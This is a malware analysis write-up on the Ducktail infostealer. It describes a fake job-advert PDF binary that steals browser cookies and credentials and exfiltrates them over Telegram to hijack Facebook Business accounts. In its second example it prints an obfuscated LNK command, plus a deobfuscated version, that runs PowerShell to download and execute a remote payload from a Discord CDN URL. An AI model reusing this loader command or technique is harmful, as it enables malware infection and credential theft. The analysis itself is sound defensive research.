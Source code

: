 ```yaml
---
tags: Infostealers
---
```

## Ducktail Infostealer

Ducktail infostealer targets individuals and employees that may have access to a Facebook Business account.
The malware is designed to steal browser cookies and take advantage of authenticated Facebook sessions to steal information from the victim's Facebook account and ultimately hijack any Facebook Business account that the victim has sufficient access to.
In some cases, the malware is delivered to victims over Linkedin, with the user of fake recruiter accounts.
The binary is designed to use Telegram API to exfiltrate data.

## Example 1 - Binary Masquerading as Job Advertisement
This sample is taken from [Virustotal](https://www.virustotal.com/gui/file/681a9d8a02e7abacc8d5218de80f16e16c02c2b40807246aa7a45e627e35038b)

It's worth mentioning that this sample, and many others, have very minimal hits on VT, usually 0 or 1.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/d275931e-404f-46bb-b65f-3180e1b9d5f9)

Upon execution, to the user, it appears that a PDF file is opened harmlessly.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c036b5c0-3dc0-409a-9374-c5f6b43ec1de)

In the background, a few things are happening.
A browser is silently executed and used to navigate to varius websites to retrieve the victims IP address.

_Evident with the following strings:_

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/081e99c9-deca-4f75-b6cf-509b313ca1bc)


A dll is dropped to the '%AppData%\Temp\.net' directory:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/e0003384-3133-457a-bd99-c687c745ec8a)

The actually legitimate PDF file is dropped to the Temp directory:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/73676dae-5cc4-49af-8d9a-8f46f963e529)

A screenshot of the screen at the time of execution is taken and stored in the Temp directory:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/e885a983-b204-4a0b-b412-8721d0fa9e52)

More interestingly, the following files are collected to be exfiltrated.

_System Information:_

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/49376a22-3737-4254-b8a6-eb1a3aa57fd5)

_Credentials from Browsers:_

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/b3d63fbe-8d70-4324-9852-ca4482c108ed)

This information is again stored in the Temp directory.

Telegram is used as a means of C2 and data exfiltration, this is also evident in the strings, with Telegram URLs and API calls.


![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/39be0c4d-3c68-4ce7-b48d-74c71423d613)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/09f46a31-5290-4181-ae12-bc73331f76af)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/4dc027fc-d125-4f6e-a1c9-51c63eca739c)

From Telegram bot [atricle](https://telegrambots.github.io/book/Migration-Guide-to-Version-14.x.html)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/2ca2c814-fcb2-4f13-a624-2c1404a80226)

There are also some interesting references to Facebook URLs within the strings:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/6728cd25-712c-4b56-a6ff-87993575512c)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c5822417-b4c6-4969-b677-433c1c6e5e77)

As well as a list of hardcoded Outlook email addresses

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/edabee64-7f99-46e1-8107-119bde5b61ee)

It's assessed that these email addresses are added to the compromised Facebook Business group.

## Example 2 - LNK File, Calling out to Discord

A much more simpler example, is an lnk file which target path is to download a remote payload from Discord CDN.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c5a4f76a-94f8-4ee6-ad76-58483bd027f0)

```
C:\WINDOWS\system32\cmd.exe /c powershe""l""l/""W 0""1 $op='i'+''+'E'+'x';sal donke $op;$hx508wpj=donke(donke($($('(nsd88w-objsd88ct
Systsd88m.Nsd88t.Wsd88bClisd88nt).Doq82mtring(''hu8pvcdn.discordapp[.]com/attachmi47nts/1015258281561821208/1036207817209692210/conmi47thangi47o[.]jpg''.Replace(''u8pv'',''ttps://'').Replace(''i47'', ''e''))').Replace('sd88', 'e').Replace('q82m', 'wnloadS'))));exit9%ProgramFiles(x86)%\Microsoft\Edge\Application\msedge.exe
```

Slightly deobfuscated:
```
/c powershe ll/W 01 ='i'+''+'E'+'x';sal donke ;=donke(donke((new-object System.Net.WebClient).DownloadString('hu8pvcdn.discordapp[.]com/attachmi47nts/1015258281561821208/1036207817209692210/conmi47thangi47o[.]jpg'.Replace('u8pv','ttps://').Replace('i47',
'e'))));exit9%ProgramFiles(x86)%\Microsoft\Edge\Application\msedge.exe
```
We can see that PowerShell is being used to download and execute the remote payload: "hu8pvcdn.discordapp[.]com/attachmi47nts/1015258281561821208/1036207817209692210/conmi47thangi47o[.]jpg"


